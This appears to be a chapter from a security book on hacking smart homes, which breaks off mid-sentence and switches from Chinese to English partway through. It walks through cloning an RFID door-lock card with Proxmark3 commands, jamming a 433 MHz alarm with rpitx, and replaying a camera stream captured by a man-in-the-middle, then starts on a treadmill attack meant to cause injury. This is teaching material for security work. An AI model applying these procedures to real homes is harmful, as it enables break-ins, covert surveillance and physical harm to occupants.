# 黑客攻击智能家居


几乎在任何现代家庭中常见的设备，如电视、冰箱、咖啡机、空调系统，甚至健身设备，现在都可以互相连接，并能够为用户提供比以往更多的服务。你可以在开车时设置理想的家居温度，收到洗衣机完成洗涤任务的通知，或者在回家时自动开灯和打开窗帘，甚至可以让电视直接将节目流式传输到手机上。

与此同时，越来越多的企业也配备了类似的设备，不仅仅是在会议室、厨房或休息室。许多办公室将物联网设备作为关键系统的一部分，如办公室报警器、安全摄像头和门锁。

本章中，我们将进行三种不同的攻击，展示黑客如何篡改现代智能家居和企业中常用的物联网设备。这些演示建立在全书中讨论的技术之上，因此它们应该能够帮助你更好地理解前面章节的内容。首先，我们展示如何通过克隆智能锁卡和禁用报警系统获得进入建筑物的权限。接着，我们提取并播放 IP 安全摄像头的录像。然后，我们描述一种攻击，目的是控制智能跑步机并造成可能致命的伤害。

## 获得物理进入建筑物的权限

智能家居安全系统无疑是那些试图进入受害者住所的对手潜在目标。现代安全系统通常配备触摸键盘、多个无线门窗传感器、运动雷达以及具有蜂窝网络和电池备份的报警基站。*基站*是整个系统的核心，处理所有识别到的安全事件。它通过互联网连接，能够向用户的移动设备发送电子邮件和推送通知。此外，它通常与智能家居助手高度集成，如 Google Home 和 Amazon Echo。许多系统甚至支持扩展套件，包括面部追踪摄像头（具有人脸识别功能）、支持 RFID 的智能门锁、烟雾探测器、一氧化碳探测器和水漏传感器。

在本节中，我们将使用第十章介绍的技术，识别用于解锁公寓门智能锁的 RFID 卡，提取保护该卡的密钥，并克隆该卡以获得进入公寓的权限。接着，我们将识别无线报警系统使用的频率，并尝试干扰其通信频道。

### 克隆钥匙锁系统的 RFID 标签

要获得智能家居的物理访问权限，首先必须绕过智能门锁。这些系统安装在现有门锁的内部，并配有集成的 125 kHz/13.56 MHz 接近读卡器，允许用户配对钥匙扣和 RFID 卡。当你回家时，它们可以自动解锁门，并在你离开时安全地再次锁上门。

在本节中，我们将使用 Proxmark3 设备（在第十章中介绍）来克隆受害者的 RFID 卡并解锁他们的公寓门。你可以在该章节中找到如何安装和配置 Proxmark3 设备的说明。

在这个场景中，假设我们能够接近受害者的 RFID 卡。我们只需要在受害者存放 RFID 卡的钱包旁停留几秒钟。

#### 识别使用的 RFID 卡类型

首先，我们必须通过使用 Proxmark3 的`hf`搜索命令扫描受害者的卡片来识别门锁使用的 RFID 卡类型。

```
$ proxmark3>**hf search**
UID : 80 55 4b 6c           
ATQA : 00 04          
 SAK : 08 [2]          
1 TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1          
proprietary non iso14443-4 card found, RATS not supported          
  No chinese magic backdoor command detected          
2 Prng detection: WEAK          
Valid ISO14443A Tag Found - Quiting Search
```

Proxmark3 工具检测到存在 MIFARE Classic 1KB 卡片 1。输出还测试了多个已知的卡片弱点，这些弱点可能允许我们干扰 RFID 卡。特别地，我们看到它的*伪随机数生成器（PRNG）*被标记为薄弱 2。PRNG 实现了 RFID 卡的身份验证控制，并保护 RFID 卡与 RFID 读卡器之间的数据交换。

#### 执行 Darkside 攻击以获取扇区密钥

我们可以利用检测到的弱点之一来识别此卡的扇区密钥。如果我们揭示了扇区密钥，就能完全克隆数据，而且由于该卡包含门锁识别房主所需的所有信息，克隆卡片使得攻击者能够冒充受害者。

如第十章所述，卡片的存储被划分为多个扇区，为了读取一个扇区的数据，卡片读卡器必须首先使用对应的扇区密钥进行身份验证。最简单的攻击方法是 Darkside 攻击，它不需要对卡片数据有任何先前了解。*Darkside 攻击*利用了卡片的伪随机数生成器（PRNG）中的一个缺陷、一个薄弱的验证控制和卡片错误响应的一些组合来提取扇区密钥的部分内容。PRNG 提供了弱随机数；此外，每次卡片通电时，PRNG 都会重置为初始状态。因此，如果攻击者注意时序，他们可以预测 PRNG 生成的随机数，甚至可以随意生成所需的随机数。

你可以通过在 Proxmark3 交互式终端中输入`hf mf mifare`命令来执行 Darkside 攻击：

```
proxmark3> **hf mf mifare**
-------------------------------------------------------------------------
Executing command. Expected execution time: 25sec on average  :-)
Press the key on the proxmark3 device to abort both proxmark3 and client.
-------------------------------------------------------------------------uid(80554b6c) nt(5e012841) par(3ce4e41ce41c8c84) ks(0209080903070606) nr(2400000000)
|diff|{nr}    |ks3|ks3⁵|parity         |
+----+--------+---+-----+---------------+
| 00 |00000000| 2 |  7  |0,0,1,1,1,1,0,0|
…
1 Found valid key:ffffffffffff
```

你应该能在 1 到 25 秒内恢复一个扇区的密钥。我们恢复的密钥是该类型 RFID 卡的默认密钥之一 1。

#### 执行嵌套认证攻击以获取剩余的扇区密钥

一旦知道至少一个扇区密钥，就可以执行一个更快的攻击，称为嵌套认证，以获取其余的扇区密钥，这些密钥是克隆其余扇区数据所需的。*嵌套认证*攻击允许您对一个扇区进行认证，从而与卡片建立加密通信。随后，攻击者对另一个扇区的认证请求将迫使认证算法再次执行。（我们在第十章中详细讲解了这一认证算法的细节。）但这一次，卡片将生成并发送一个挑战，攻击者可以根据 PRNG 漏洞预测这个挑战。该挑战将使用相应扇区的密钥进行加密。然后，系统会向该值添加一些位以达到特定的奇偶校验。如果您知道带有奇偶校验位的可预测挑战及其加密形式，就可以推断出扇区密钥的部分内容。

您可以使用`hf mf nested`命令执行此攻击，后面跟着若干参数：

```
proxmark3> **hf mf nested 1 0 A FFFFFFFFFFFF t**
Testing known keys. Sector count=16          
nested...          
-----------------------------------------------
Iterations count: 0     
|---|----------------|---|----------------|---|          
|sec|key A           |res|key B           |res|          
|---|----------------|---|----------------|---|          
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
|001|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
|002|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
…
```

第一个参数指定卡片内存（因为它是 1KB，我们使用值`1`）；第二个参数指定已知密钥的扇区号；第三个参数定义已知密钥的类型（MIFARE 卡中的`A`或`B`）；第四个参数是先前提取的密钥；`t`参数要求将密钥传输到 Proxmark3 内存中。执行完成后，您应该会看到一个矩阵，显示每个扇区的两种密钥类型。

#### 将标签加载到内存

现在可以使用`hf mf ecfill`命令将标签加载到 Proxmark3 仿真器的内存中。`A`参数再次指定工具应使用认证密钥类型`A (0x60)`：

```
proxmark3> **hf mf ecfill A**
#db# EMUL FILL SECTORS FINISHED 
```

#### 测试克隆卡

接下来，您可以接近门锁，并通过使用`hf mf sim`命令读取和写入 Proxmark3 内存中存储的内容来模拟克隆的标签。无需将内容写入新卡，因为 Proxmark3 可以模拟 RFID 卡。

```
proxmark3> **hf mf sim**
uid:N/A, numreads:0, flags:0 (0x00)           
#db# 4B UID: 80554b6c
```

请注意，并非所有 MIFARE Classic 卡都容易受到这两种攻击的影响。有关针对其他类型 RFID 卡和钥匙扣的攻击，请参见第十章中讨论的技术。对于不强制实施认证算法的简单钥匙扣，您也可以使用便宜的钥匙扣复制器，例如 TINYLABS 的 Keysy。可以在其网站[`tinylabs.io/keysy/keysy-compatibility/`](https://tinylabs.io/keysy/keysy-compatibility/)上查看支持的钥匙扣型号。

### 干扰无线报警

Darkside 攻击使你能够轻松进入受害者的住所。但公寓可能也配有能够检测到安全漏洞并通过其内置警报器发出响亮警告的报警系统。此外，它还可以通过将通知发送到受害者的手机，快速通知他们安全漏洞。即使你已经绕过了门锁，打开门也会导致无线门禁传感器触发此报警系统。

克服这一挑战的一种方法是干扰无线传感器与报警系统基站之间的通信通道。你可以通过干扰传感器向报警基站发送的无线信号来做到这一点。进行*干扰攻击*时，你必须在传感器使用的相同频率上发送无线信号，从而降低通信通道的*信噪比**(SNR)*。SNR 是指从传感器到达基站的有意义信号的功率与同时到达基站的背景噪声的功率之间的比值。降低的 SNR 会阻止基站接收门禁传感器的通信。

#### 监控报警系统的频率

在本节中，我们将使用低成本的 RTL-SDR DVB-T 加密狗(图 15-1)来设置一个*软件定义无线电**(SDR)*。我们将使用它监听来自警报的频率，以便稍后可以传输相同频率的信号。



图 15-1：廉价的 RTL-SDR DVB-T 加密狗和配有无线门禁传感器的报警系统

要复制此实验，你可以使用大多数配备*Realtek RTL2832U*芯片组的 DVB-T 加密狗。RTL2832U 的驱动程序已预安装在 Kali Linux 中。输入以下命令以验证系统是否检测到 DVB-T 加密狗：

```
 $ **rtl_test**
Found 1 device(s):
  0:  Realtek, RTL2838UHIDIR, SN: 00000001
```

为了将无线电频谱转换成我们可以分析的数字流，我们需要下载并执行 CubicSDR 二进制文件([`github.com/cjcliffe/CubicSDR/releases/`](https://github.com/cjcliffe/CubicSDR/releases/))。

大多数无线报警系统使用几个无许可证的频段之一，如 433 MHz 频段。我们从监控 433 MHz 频率开始，当受害者打开或关闭一个配有无线门禁传感器的门时。为此，请使用 Linux 平台上预安装的`chmod`工具，后跟`+x`参数，使二进制文件可执行：

```
 $ **chmod +x CubicSDR-0.2.5-x86_64.AppImage**
```

使用以下命令运行二进制文件；CubicSDR 界面应会出现：

```
$ **./CubicSDR-0.2.5-x86_64.AppImage**
```

应用程序应列出你可以使用的已检测设备。选择 RTL2932U 设备并点击**开始**，如图 15-2 所示。



图 15-2：CubicSDR 设备选择

要选择频率，将鼠标指针移动到**设置中心频率**框中列出的值上，然后按空格键。接着输入值**433MHz**，如图 15-3 所示。



图 15-3：CubicSDR 频率选择

你可以在 CubicSDR 中查看频率，如图 15-4 所示。



图 15-4：CubicSDR 监听 433 MHz

每次受害者开关门时，你应该在图表中看到一个小的绿色峰值。更强的峰值将以黄色或红色显示，表示传感器正在传输的准确频率。

#### 使用 Raspberry Pi 在相同频率下发送信号

使用开源的*Rpitx*软件，你可以将 Raspberry Pi 转变为一个简单的无线电发射器，可以处理从 5 kHz 到 1,500 MHz 的频率。Raspberry Pi 是一款低成本的单板计算机，适用于许多项目。任何运行轻量版 Raspbian 操作系统安装的 Raspberry Pi 型号（除了 Raspberry Pi B）目前都可以支持 Rpitx。

要安装并运行 Rpitx，首先将一根线连接到 Raspberry Pi 的暴露 GPIO 4 引脚，如图 15-5 所示。你可以使用任何商业或自定义的电线来实现这一点。



图 15-5：Raspberry Pi GPIO 4 引脚

使用`git`命令从远程仓库下载应用程序。然后导航到其文件夹并运行*install.sh*脚本：

```
$ **git clone** **http****s://github.com/F5OEO/rpitx**
$ **cd rpitx && ./install.sh**
```

现在重启设备。要开始传输，使用`rpitx`命令。

```
$ **sudo ./rpitx –m VFO –f 433850**
```

`-m`参数定义传输模式。在此情况下，我们将其设置为`VFO`，以传输恒定频率。`-f`参数定义要在 Raspberry Pi 的 GPIO 4 引脚上输出的频率（单位：千赫）。

如果你将 Raspberry Pi 连接到显示器，你可以使用 Rpitx 图形用户界面进一步调节发射器，如图 15-6 所示。



图 15-6：Rpitx GUI 发射器选项

我们可以通过使用 RTL-SDR DVB-T 接收器进行新的捕获，验证信号是否以正确的频率传输。现在你可以开门而不会触发报警。

如果你使用的是 Rpitx 版本 2 或更高版本，你还可以直接从 RTL-SDR DVB-T 接收器录制信号，并通过提供的图形用户界面在相同频率下重放它。在这种情况下，你无需使用 CubicSDR。我们将这个作为练习留给你完成。你可以尝试这个功能，针对那些提供遥控器来激活或停用报警的报警系统。

更昂贵、高度复杂的报警系统可能会检测到无线频率中的噪声，并试图通知用户此事件。为避免这种情况，你可以尝试通过执行去认证攻击来干扰报警系统基站的 Wi-Fi 连接，如第十二章所讨论的。有关使用 Aircrack-ng 套件的更多信息，请参阅该章节。

## 播放 IP 摄像头流

假设你是一个攻击者，已经通过某种方式访问了一个包含 IP 摄像头的网络。那么，什么样的攻击可能会对隐私产生重大影响，并且你甚至无需触及摄像头就能实施呢？当然是回放摄像头的视频流。即使摄像头没有漏洞（这非常不可能！），一个在网络中获得中间人位置的攻击者仍然可以从任何潜在的不安全通信通道捕获流量。坏消息（或好消息，取决于你的视角）是，许多当前的摄像头仍然使用未加密的网络协议来流式传输视频。捕获网络流量是一回事，但能够向利益相关者证明从该转储中回放视频是可能的，又是另一回事。

如果网络没有分段，你可以使用像 ARP 缓存中毒或 DHCP 欺骗（在第三章首次介绍）等技术轻松实现中间人攻击位置。在摄像头视频流的例子中，我们假设已经达成了这个位置，并且你已经捕获了通过实时流媒体协议（RTSP）、实时传输协议（RTP）和 RTP 控制协议（RTCP）流动的网络摄像头的 *pcap* 文件，这些将在接下来的章节中讨论。

### 了解流媒体协议

RTSP、RTP 和 RTCP 协议通常是相互配合工作的。虽然我们不深入探讨它们的内部工作原理，下面是每个协议的简要介绍：

1.  RTSP 是一个客户端-服务器协议，充当带有实时视频源和存储片段的多媒体服务器的网络遥控器。你可以把 RTSP 想象成可以发送类似 VHS 风格的多媒体播放命令的协议统治者，例如播放、暂停和录制。RTSP 通常通过 TCP 运行。

1.  RTP 执行媒体数据的传输。RTP 运行在 UDP 上，并与 RTCP 协同工作。

1.  RTCP 定期发送带外报告，向 RTP 参与者通告统计信息（例如，发送和丢失的数据包数以及抖动）。尽管 RTP 通常通过偶数的 UDP 端口发送，RTCP 会通过下一个最高的奇数 UDP 端口发送：你可以在 Wireshark 转储中看到这一点，如图 15-7 所示。

### 分析 IP 摄像头网络流量

在我们的设置中，IP 摄像头的 IP 地址是 192.168.4.180，旨在接收视频流的客户端的 IP 地址是 192.168.5.246。客户端可以是用户的浏览器或视频播放器，如 VLC 媒体播放器。

作为一个中间人攻击者，我们在 Wireshark 中捕获了图 15-7 所示的对话。



图 15-7：通过 RTSP 和 RTP 建立的典型多媒体会话的 Wireshark 输出

该流量是客户端与 IP 摄像头之间的典型多媒体 RTSP/RTP 会话。客户端首先通过发送`RTSP OPTIONS`请求 1 到摄像头。此请求询问服务器它将接受哪些请求类型。接受的类型随后包含在服务器的`RTSP REPLY`2 中。``在此案例中，它们是`DESCRIBE`*、* `SETUP`*、* `TEARDOWN`*、* `PLAY`*、* `SET_PARAMETER`*、* `GET_PARAMETER`*和`PAUSE`（某些读者可能会发现这些术语与 VHS 时代很相似），如图 15-8 所示。``

````    Figure 15-8: The camera’s `RTSP OPTIONS` reply contains the request types it accepts.      Then the client sends an `RTSP DESCRIBE` request 3 that includes an `RTSP URL` (a link for viewing the camera feed, which in this case is *rtsp://192.168.4.180:554/video.mp4*). With this request 3 the client is asking the URL’s description and will notify the server with the description formats the client understands by using the `Accept` header in the form `Accept: application/sdp`. The server’s reply 4 to this is usually in the Session Description Protocol (SDP) format shown in Figure 15-9. The server’s reply is an important packet for our proof of concept, because we’ll use that information to create the basis of an SDP file. It contains important fields, such as media attributes (for example, encoding for the video is H.264 with a sample rate of 90,000 Hz) and which packetization modes will be in use.      Figure 15-9: The camera’s RTSP reply to the `DESCRIBE` request includes the SDP part.      The next two RTSP requests are `SETUP` and `PLAY`. The former asks the camera to allocate resources and start an RTSP session; the latter asks to start sending data on the stream allocated via `SETUP`. The `SETUP` request 5 includes the client’s two ports for receiving RTP data (video and audio) and RTCP data (statistics and control info). The camera’s reply 6 to the `SETUP` request confirms the client’s ports and adds the server’s corresponding chosen ports, as shown in Figure 15-10.      Figure 15-10: The camera’s reply to the client’s `SETUP` request      After the `PLAY` request 7, the server starts transmitting the RTP stream 8 (and some RTCP packets) 9. Return to Figure 15-7 to see that this exchange happens between the `SETUP` request’s agreed-upon ports.    ### Extracting the Video Stream    Next, we need to extract the bytes from the SDP packet and export them into a file. Because the SDP packet contains important values about how the video is encoded, we need that information to play back the video. You can extract the SDP packet by selecting the **RTSP/SDP** packet in the Wireshark main window, selecting the **Session Description Protocol** part of the packet, and then right-clicking and selecting **Export Packet Bytes** (Figure 15-11). Then save the bytes into a file on the disk.      Figure 15-11: Select the SDP part of the RTSP packet in Wireshark and Export Packet Bytes to a file.      The created SDP file will look something like Listing 15-1.    ``` v=0 1 o=- 0 0 IN IP4 192.168.4.180 2 s=LIVE VIEW 3 c=IN IP4 0.0.0.0 t=0 0 a=control:* 4 m=video 0 RTP/AVP 35 a=rtpmap:35 H264/90000 a=rtpmap:102 H265/90000 a=control:video a=recvonly a=fmtp:35 packetization-mode=1;profile-level-id=4d4033;sprop-parameter-sets=Z01AM42NYBgAbNgLUBDQECA=,aO44gA== ```    Listing 15-1: The original SDP file as saved by exporting the SDP packet from the Wireshark dump    We’ve marked the most important parts of the file that we need to modify. We see the session owner (`-`), the session id (`0`), and the originator’s network address 1. For accuracy, because the originator of this session will be our localhost, we can change the IP address to 127.0.0.1 or delete this line entirely. Next, we see the session name 2. We can omit this line or leave it as-is. If we leave it, the string `LIVE VIEW` will briefly appear when VLC plays back the file. Then we see the listening network address 3. We should change this to 127.0.0.1 so we don’t expose the FFmpeg tool we’ll use later on the network, because we’ll only be sending data to FFmpeg locally through the loopback network interface.    The most important part of the file is the value that contains the network port for RTP 4. In the original SDP file, this is `0`, because the port was negotiated later through the RTSP `SETUP` request. We’ll have to change this port to a valid non-zero value for our use-case. We arbitrarily chose `5000`. Listing 15-2 displays the modified SDP file. We saved it as *camera.sdp*.    ``` v=0 c=IN IP4 127.0.0.1 m=video 5000 RTP/AVP 35 a=rtpmap:35 H264/90000 a=rtpmap:102 H265/90000 a=control:video a=recvonly a=fmtp:35 packetization-mode=1;profile-level-id=4d4033;sprop-parameter-sets=Z01AM42NYBgAbNgLUBDQECA=,aO44gA== ```    Listing 15-2: The modified SDP file    The second step is to extract the RTP stream from Wireshark. The RTP stream contains the encoded video data. Open the *pcap* file that contains the captured RTP packets in Wireshark; then click **Telephony**▶**RTP Streams**. Select the stream shown, right-click it, and select **Prepare Filter**. Right-click again and select **Export as RTPDump**. Then save the selected RTP stream as an *rtpdump* file (we saved it as *camera.rtpdump*).    To extract the video from the *rtpdump* file and play it back, you’ll need the following tools: RTP Tools to read and play back the RTP session, FFmpeg to convert the stream, and VLC to play back the final video file. If you’re using a Debian-based distribution like Kali Linux, you can easily install the first two using`apt`:    ``` $ **apt-get install vlc** $ **apt-get install ffmpeg** ```    You’ll have to download the RTP Tools manually either from its website ([`github.com/irtlab/rtptools/`](https://github.com/irtlab/rtptools/)) or its GitHub repository. Using `git`, you can clone the latest version of the GitHub repository:    ``` $ **git clone https://github.com/cu-irt/rtptools.git** ```    Then compile the RTP Tools::    ``` $ **cd rtptools** $ **./configure && make** ```    Next, run FFmpeg using the following options:    ``` $ **ffmpeg -v warning -protocol_whitelist file,udp,rtp -f sdp -i camera.sdp -copyts -c copy -y**  **out.mkv**  ```    We whitelist the allowed protocols (file, UDP, and SDP) because it’s a good practice. The `-f` switch forces the input file format to be SDP regardless of the file’s extension. The `-i` option supplies the modified *camera.sdp* file as input. The `-copyts` option means that input timestamps won’t be processed. The `-c copy` option signifies that the stream is not to be re-encoded, only outputted, and `-y` overwrites output files without asking. The final argument (*out.mkv*) is the resulting video file.    Now run RTP Play, providing the path of the *rtpdump* file as an argument to the `-f` switch:    ``` ~/rtptools-1.22$ **./rtpplay -T -f****../****camera****.rtpdump 127.0.0.1/5000** ```    The last argument is the network address destination and port that the RTP session will be played back to. This needs to match the one FFmpeg read through the SDP file (remember that we chose `5000` in the modified *camera.sdp* file).    Note that you must execute the `rtpplay` command immediately after you start FFmpeg, because by default FFmpeg will terminate if no incoming stream arrives soon. The FFmpeg tool will then decode the played-back RTP session and output the *out.mkv* file.    Then VLC will gloriously be able to play the video file:    ``` $ **vlc out.mkv**  ```    When you run this command, you should witness the captured camera video feed. You can watch a video demonstration of this technique on this book’s website at [`nostarch.com/practical-iot-hacking/`](https://nostarch.com/practical-iot-hacking/).    There are ways to securely transmit video streams that would prevent man-in-the-middle attacks, but few devices currently support them. One solution would be to use the newer *Secure RTP (SRTP)* protocol that can provide encryption, message authentication, and integrity, but note that these features are optional and could be disabled. People might disable them to avoid the performance overhead of encryption, because many embedded devices don’t have the necessary computational power to support it. There are also ways to separately encrypt RTP, as described at RFC 7201\. Methods include using IPsec, RTP over TLS over TCP, or RTP over Datagram TLS (DTLS).    ## Attacking a Smart Treadmill    As an attacker, you now have unrestricted access to the user’s premises and you can check whether you appear in their security footage by playing back the video. The next step is to use your physical access to perform further attacks on other smart devices to extract sensitive data or even make them perform unwanted actions. What if you could turn all these smart devices against their owner while making it look like an accident?    A good example of smart home devices that you can exploit for such malicious purposes are those related to fitness and wellness, such as exercise and movement trackers, electric connected toothbrushes, smart weight scales, and smart exercise bikes. These devices can collect sensitive data about a user’s activities in real time. Some of them can also affect the user’s health. Among other features, the devices might be equipped with high-quality sensors designed to sense a user’s condition; *activity tracking systems* responsible for monitoring the user’s performance; cloud computing capabilities to store and process the collected data on a daily basis; internet connectivity that offers real-time interaction with users of similar devices; and multimedia playback that transforms the fitness device into a state-of-the-art infotainment system.    In this section, we’ll describe an attack against a device that combines all these amazing features: the smart powered treadmill, as shown in Figure 15-12.    Smart treadmills are one of the most fun ways to exercise in the home or gym, but you can get injured if the treadmill malfunctions.    The attack described in this section is based on a presentation given at the 2019 IoT security conference Troopers by Ioannis Stais (one of the authors of this book) and Dimitris Valsamaras. As a security measure, we won’t disclose the smart treadmill vendor’s name or the exact device model. The reason is that even though the vendor did address the issues very quickly by implementing the proper patches, these devices aren’t necessarily always connected to the internet, and as a result, might have not been updated yet. That said, the identified issues are textbook vulnerabilities often found in smart devices; they’re very indicative of what can go wrong with an IoT device in a modern smart home.      Figure 15-12: A modern smart treadmill      ### Smart Treadmills and the Android Operating System    Many smart treadmills use the Android operating system, which runs on more than a billion phones, tablets, watches, and televisions. By using Android in a product, you’re automatically granted significant benefits; for example, specialized libraries and resources for fast app development, and mobile apps, already available on the Google Play Store, that can be directly integrated into a product. Also, you have the support of an extended device ecosystem of all shapes and sizes that includes smartphones, tablets (AOSP), cars (Android Auto), smartwatches (Android Wear), TVs (Android TV), embedded systems (Android Things), and extensive official documentation that comes with online courses and training material for developers. Additionally, many original equipment manufacturers and retailers can provide compatible hardware parts.    But every good thing comes with a price: the adopted system risks becoming too generic It also provides far more functionality than required, increasing the product’s overall attack surface. Often, the vendors include custom apps and software that lack proper security audits and circumvent the existing platform security controls to achieve primary functions for their product, such as hardware control, as shown in Figure 15-13.    To control the environment the platform provides, vendors typically follow one of two possible approaches. They can integrate their product with a *Mobile Device Management (MDM)* software solution. MDM is a set of technologies that can be used to remotely administer the deployment, security, auditing, and policy enforcement of mobile devices. Otherwise, they can generate their own custom platform based on the *Android Open Source Project (AOSP)*. AOSP is freely available to download, customize, and install on any supported device. Both solutions offer numerous ways to limit the platform-provided functionalities and restrict the user access only to the intended ones.      Figure 15-13: A smart treadmill’s stack      The device examined here uses a customized platform based on AOSP equipped with all the necessary apps.    ### Taking Control of the Android Powered Smart Treadmill    In this section, we’ll walk through an attack on the smart treadmill that allowed us to control the speed and the incline of the device remotely.    #### Circumventing UI Restrictions    The treadmill is configured to 